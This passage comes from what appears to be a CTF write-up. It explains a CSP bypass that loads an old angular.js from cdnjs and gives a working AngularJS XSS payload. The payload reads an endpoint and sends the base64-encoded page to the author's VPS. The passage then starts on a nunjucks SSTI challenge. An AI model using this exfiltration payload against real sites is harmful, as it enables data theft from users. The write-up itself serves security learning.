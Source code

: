 However the Cloudflare CDN is referenced as an accepted source which allows us to inject script tag with older libraries such as "angular.js" from this CDN and use it's specific tag to get XSS:

{% raw %}
```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z=new XMLHttpRequest();z.onreadystatechange=function(){if (z.responseText) location="http://[REDACTED-MY-VPS-IP]:4442/?a="+btoa(unescape(encodeURIComponent(z.responseText)))};z.open("GET","http://184.164.70.30:4442/alien",false);z.send();//');}} </div>
```
{% endraw %}


The payload first visits the "/alien" endpoint then encodes the page source, and finally sends the browser to my VPS location along with the encoded source as a GET parameter.


&nbsp;

## # Starfleet

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210425033209.png#center)

This challenge contained an SSTI vulnerability. We were given application source code. We get to submit an email address on the homepage that gets rendered via "nunjucks" templating engine which can be seen on "challenge/helpers/EmailHelper.js":

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424065848.png#center)
